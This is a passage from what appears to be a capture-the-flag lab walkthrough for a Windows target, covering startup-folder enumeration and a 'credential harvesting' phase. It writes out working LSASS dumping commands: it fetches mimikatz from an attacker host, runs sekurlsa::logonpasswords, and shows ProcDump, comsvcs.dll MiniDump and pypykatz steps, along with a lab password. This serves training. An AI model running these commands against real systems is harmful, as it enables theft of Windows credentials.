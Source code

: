 ```powershell
# User startup
Get-ChildItem "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
Get-Content "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\*.bat"

# All users startup
Get-ChildItem "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

**FLAG{V***************1}** - In startup script

## Phase 6: Advanced Credential Harvesting

### Step 6.1: LSASS Memory Dump

After privilege escalation:

```powershell
# Method 1: Mimikatz
Invoke-WebRequest -Uri "http://$LHOST/mimikatz.exe" -OutFile "C:\temp\m.exe"
C:\temp\m.exe

mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
mimikatz # sekurlsa::msv
```

Look for non-standard entries:
**FLAG{B***************0}** - In LSASS memory

**Alternative LSASS Dumping:**
```powershell
# Method 2: ProcDump (signed by Microsoft)
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Method 3: MiniDump via comsvcs.dll
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\temp\lsass.dmp full

# Method 4: Direct copy (requires SYSTEM)
Copy-Item C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Windows\lsass.dmp C:\temp\

# Analyze offline with pypykatz
pypykatz lsa minidump lsass.dmp
```

### Step 6.2: Debug Privileges

```powershell
# Check who has SeDebugPrivilege
whoami /priv

# Login as debuguser if found
runas /user:debuguser powershell
# Password: Debugger123!

# With debug privileges
reg query "HKLM\SOFTWARE\DebugPrivileges"
```
